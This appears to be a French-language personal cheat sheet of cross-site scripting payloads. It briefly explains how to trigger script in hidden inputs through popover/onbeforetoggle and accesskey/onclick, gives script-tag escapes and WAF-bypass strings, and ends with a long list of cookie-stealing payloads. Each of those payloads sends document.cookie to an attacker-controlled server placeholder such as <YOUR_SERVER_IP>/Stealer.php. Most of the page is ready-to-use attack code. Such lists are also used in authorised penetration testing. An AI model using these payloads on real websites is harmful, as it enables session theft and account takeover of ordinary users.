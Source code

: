 
`<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>`: imaginons que j'ai un bouton `<button popovertarget="x">Click me</button>`. L'injection dans la valeur du hidden ressemblerai a `" popover id="x" onbeforetoggle=alert(1)>` ou un truc du genre. popover c'est un attribut qui désigne ce qui passera par dessus un élément. Là il vise l'élément x car "x" a un attribut qui correspond bien. onbeforetoggle désigne une action à faire avant le changement d'un élément. Au final, dès que le buton x est cliqué, l'input hidden est affiché au dessus mais onbeforetoggle oblige a executé une alerte avant. ca fonctionne aussi dans un élément sans le type:hidden, c'est juste parce que c'est dur d'injecter un hidden donc c'est le plus interressant.

`<input type="hidden" accesskey="X" onclick="alert(1)">`: Dans une input hidden c'est chiant pour les event car les trucs genre onmouseover ca marche pas. A la place, on peut definir un raccourci qui, quand il sera déclenché, lance le script qu'on a mit. Le onclick est obligatoire car c'est quand on CLIQUE SUR X que l'alerte se lance. Le payload va ressemblai a un truc du genre `" accesskey="x" onclick="alert(1)" x="`

`</script><img src=1 onerror=alert(document.domain)>` : Pour échapper d'un tag . Si le waf nous empeche de mettre des <>, on peut faire

```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
';alert(document.domain);var prout='
```

---

payload pour récupérer les cookie :

```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>

<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">

<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>

<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>

<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>

<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>

<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>

<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>

```